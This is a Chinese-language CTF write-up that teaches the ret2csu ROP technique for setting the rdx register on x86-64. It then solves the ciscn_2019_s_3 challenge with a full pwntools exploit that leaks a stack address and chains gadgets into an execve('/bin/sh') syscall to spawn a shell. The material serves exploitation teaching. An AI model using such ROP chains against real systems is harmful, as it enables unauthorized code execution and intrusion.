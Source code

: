 ## ret2csu

### 知识点：如何给rdx寄存器传参

1. 64位程序进行传参时 **前6个值** 通过寄存器传递，但是在 **ROPgadget** 中rsi，rdi寄存器很普遍，但rdx这类寄存器且很难寻找到，所以需要 **利用到csu对rbx** 进行传参。这时候，我们可以利用 x64 下的 **__libc_csu_init** 中的 gadgets。这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定会存在。

2. 仔细观察一下 **__libc_csu_init** 函数的汇编实现，可以发现存在一条指令 **mov     rdx, r13** ，最后面的6个pop指令由可以对r13赋值，ret又能直接跳转到**mov     rdx, r13**处，简直两全其美，但是后面存在一些多余的指令：

   ![image-20240603205939162](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406032059248.png)

3. 如何变向去掉后面多余的指令：call指令前面两条mov不必理会，可以直接给rsi和edi设置随机值（在构造ROP链时将给rsi和rdi传参的部分放在利用csu传参的后面，即可覆盖掉原rsi和rdi，这也确定了我们ROP链上传递参数的顺序）。从call指令开始分析：call指令会将 **r12+rbx*8** 这个值当作内存单元的地址，取该地址处取一个值，将该值作为IP的值从该地址处开始执行指令。所以要想 **r12+rbx*8** 跳转到一个位置执行指令，就要将 **存储该指令地址的内存单元地址** 付给r12（这里假设rbx=0，我们可以在pop rbx时直接将rbx赋值位0，然后pop r12时将所需地址给r12），后面绕过cmp jnz可以在pop时将rbx赋值为0，rbp赋值为1，这可以让其在执行完add指令后即可跳处出循环到**loc_400596** 处，接下来add rsp将sp指针在栈上向下跳了一格，所以需要 **7个垃圾数据** 进行填充，后面才是返回值地址。

### 例题：[ciscn_2019_s_3](https://buuoj.cn/challenges#)

1. 进入函数，是通过syscall来调用函数read和write，而execve函数的系统调用号是0x3B，可以构造 **execve(“/bin/sh”,0,0)** 来拿到shell，64 为的程序参数对应依次为rax=0x3B，rdi=“/bin/sh”、rsi=0、rdx=0。

   ![image-20240606213208176](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406062132253.png)

2. 其中rax传参可以直接利用程序中的 **gadgets函数** ，rdi、rsi可以用ROPgadget查找，最后主要是rdx传参，就需要用到前面的cus：

   ![image-20240606213951730](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406062139766.png)

3. 注意程序的结束位置是直接ret，相当于直接返回了进入函数是bp寄存器的值指向的地址处，所以溢出只用 **溢出到bp寄存器** 的位置：

   ![image-20240606213357371](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406062136052.png)

2. EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   p=remote("node5.buuoj.cn",28175)
   elf=ELF('./ciscn_s_3')
   
   ret = 0x4005A4
   main_addr = 0x4004ED
   pop_rdi_ret = 0x4005a3
   pop_rsi_r15_ret = 0x4005a1
   mov_rax_ret = 0x4004e2
   csu = 0x400580
   pop_rbx_rbp_r12_r13_r14_r15_ret = 0x40059A
   gadget_rax = 0x4004E2
   syscall = 0x400517
   vuln = 0x4004ED
   
   #经过调试，返回值只需要填充到bp的位置即可，不需要覆盖真正的返回值
   payload = b'a'*0x10+p64(vuln)
   p.sendline(payload)
   p.recv(0x20)
   addr = u64(p.recv(8))
   print(hex(addr))
   bin_addr = addr-0x118
   
   payload  = p64(ret)+b'/bin/sh\00'		#刚好16个字节，填充到bp的位置
   payload += p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(bin_addr)+p64(0)+p64(0)+p64(0)+p64(csu)+p64(0)*7		#bin_addr是ret指令地址的地址，call [r12]可以直接跳转到ret指令然后返回，rsi也会自动被初始化为0，后面不用单独安排传参
   payload += p64(mov_rax_ret)+p64(pop_rdi_ret)+p64(bin_addr+8)+p64(syscall)
   
   p.sendline(payload)
   
   p.sendline(b'cat flag')
   p.interactive()
   
   ```
   

![image-20240603211701004](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406032117121.png)

